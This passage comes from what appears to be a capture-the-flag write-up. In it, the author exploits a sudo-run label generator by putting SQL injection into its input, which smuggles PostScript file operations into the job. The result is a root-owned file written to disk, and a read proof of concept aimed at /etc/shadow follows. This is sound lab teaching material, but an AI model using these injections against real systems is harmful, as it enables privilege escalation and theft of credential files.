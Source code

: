     
    /inputfile (output1.txt) (r) file def
    inputfile 100 string readstring
    pop
    inputfile closefile
    
    /outfile2 (output2.txt) (w) file def
    outfile2 exch writestring
    outfile2 closefile 
    

It write a file, then reads that file and writes the results to another file.
I can start with writing a file with just the last block replacing `exch` with
some static text:

    
    
    /outfile (output.txt) (w) file def
    outfile (this is a test) writestring
    outfile closefile
    

Putting that into the injection:

    
    
    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    > 
    > /outfile (output.txt) (w) file def
    > outfile (this is a test) writestring
    > outfile closefile
    > 
    > (test", 2,3,4,5,6,7'
    Fetching order...
    Generating PostScript file...
    Generating PDF (until the printer gets fixed...)
    Documents available in /tmp/tmpce7s4u1wprintgen
    

I don’t care about the PDF output, but rather, that there’s an `output.txt` in
the current directory:

    
    
    neil@bookworm:~$ ls -l output.txt 
    -rw-r--r-- 1 root root 14 Jan 17 18:41 output.txt
    neil@bookworm:~$ cat output.txt 
    this is a test
    

#### Read POC

I spent a long time with ChatGPT trying to get a POC that would read a file
into the PDF without success. I’ll end up back with the POC from above, this
time grabbing the second and third blocks:

    
    
    /inputfile (/etc/shadow) (r) file def
    inputfile 10000 string readstring
    pop
    inputfile closefile
    